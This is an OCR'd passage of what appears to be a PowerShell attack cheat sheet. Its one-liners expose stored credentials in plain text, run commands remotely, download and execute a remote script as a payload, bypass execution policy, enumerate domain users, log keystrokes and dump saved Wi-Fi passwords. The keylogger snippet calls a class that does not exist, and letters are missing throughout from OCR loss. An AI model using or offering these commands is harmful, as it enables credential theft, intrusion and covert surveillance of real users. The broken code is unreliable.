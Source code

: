 ```powershell
$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password
```

### Executing Remote Commands
Executes a command remotely on a target PC, in this case, listing processes. Requires credentials for the target
system.

```powershell
Invoke-Command -ComputerName TargetPC -ScriptBlock { Get-Process } -Credential (Get-Credential)
```

### Downloading and Executing Scripts from URL
Downloads and executes a PowerShell script from a specied URL. Useful for executing remote payloads.

```powershell
$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object
Net.WebClient).DownloadString($url)
```

### Bypassing Execution Policy for Script Execution
Temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; .\script.ps
```

### Enumerating Domain Users
Retrieves a list of all domain users, including their names, account status, and last logon dates.

```powershell
Get-ADUser -Filter * -Properties * | Select-Object -Property Name, Enabled, LastLogonDate
```

### Capturing Keystrokes

Captures and logs keystrokes to a le, which can be used for gathering sensitive information like passwords.

```powershell
$path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys | Out-File -FilePath $path
```

### Extracting Wi-Fi Profiles and Passwords
Extracts Wi-Fi network proles and their associated passwords stored on the system.

```powershell
netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_
-replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```
